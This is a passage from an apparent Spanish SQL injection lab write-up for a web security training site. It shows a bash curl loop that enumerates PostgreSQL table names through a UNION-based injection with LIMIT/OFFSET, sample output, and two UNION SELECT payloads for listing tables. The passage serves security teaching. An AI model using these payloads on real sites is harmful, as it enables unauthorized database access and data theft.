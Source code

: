 Recordemos que en PostgreSQL `OFFSET` empieza en `0`. Por tanto el bucle debe recorrer `seq 0 N`:

```bash
for i in $(seq 0 99); do q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"; res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text); echo "[+] Para el nº $i: $res"; done
```

Si la shell o el entorno interpreta mal la URL, una alternativa es usar `--get --data-urlencode` de `curl` para codificar automáticamente la query:

```bash
for i in $(seq 0 99); do
  q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"
  res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text)
  echo "[+] Para el nº $i: $res"
done
```

Esto evita problemas con espacios, comillas o caracteres especiales.


### 5. Resultado de ejemplo

Ejemplo de salida esperada si enumeramos varias entradas:

```
[+] Para el nº 0: pg_extension
[+] Para el nº 1: pg_class
[+] Para el nº 2: pg_range
[+] Para el nº 3: pg_stat_gssapi
[+] Para el nº 4: pg_indexes
[+] Para el nº 5: pg_policies
...
```

Si filtramos por `table_schema='public'` veremos nombres de tablas de la aplicación en lugar de las internas.



---

## Listar tablas de una base de datos


### 1) Payload básico (si la columna izquierda es numérica)

```bash
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='public'-- 
```

### 2) Payload seguro si no sabemos el tipo de la primera columna (usar `NULL` para rellenar)

```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' -- 
```

